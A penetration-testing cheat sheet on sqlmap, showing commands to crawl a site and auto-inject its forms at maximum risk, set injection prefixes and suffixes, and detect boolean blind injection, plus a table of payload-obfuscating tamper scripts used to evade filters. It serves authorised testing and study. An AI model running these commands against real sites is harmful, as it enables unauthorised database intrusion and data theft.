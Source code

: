 ## Crawl a website with SQLmap and auto-exploit

```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

# Customizing Injection

## Set a suffix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

## Prefix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "
```

## Help finding boolean injection

```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```

## Tamper

```bash
--tamper=name_of_the_tamper
#In kali you can see all the tampers in /usr/share/sqlmap/tamper
```

| Tamper | Description |
| :--- | :--- |
| apostrophemask.py | Replaces apostrophe character with its UTF-8 full width counterpart |
| apostrophenullencode.py | Replaces apostrophe character with its illegal double unicode counterpart |
| appendnullbyte.py | Appends encoded NULL byte character at the end of payload |
| base64encode.py | Base64 all characters in a given payload |
| between.py | Replaces greater than operator \('&gt;'\) with 'NOT BETWEEN 0 AND \#' |
| bluecoat.py | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator |
| chardoubleencode.py | Double url-encodes all characters in a given payload \(not processing already encoded\) |
| commalesslimit.py | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M' |
| commalessmid.py | Replaces instances like 'MID\(A, B, C\)' with 'MID\(A FROM B FOR C\)' |
| concat2concatws.py | Replaces instances like 'CONCAT\(A, B\)' with 'CONCAT\_WS\(MID\(CHAR\(0\), 0, 0\), A, B\)' |
| charencode.py | Url-encodes all characters in a given payload \(not processing already encoded\) |
| charunicodeencode.py | Unicode-url-encodes non-encoded characters in a given payload \(not processing already encoded\). "%u0022" |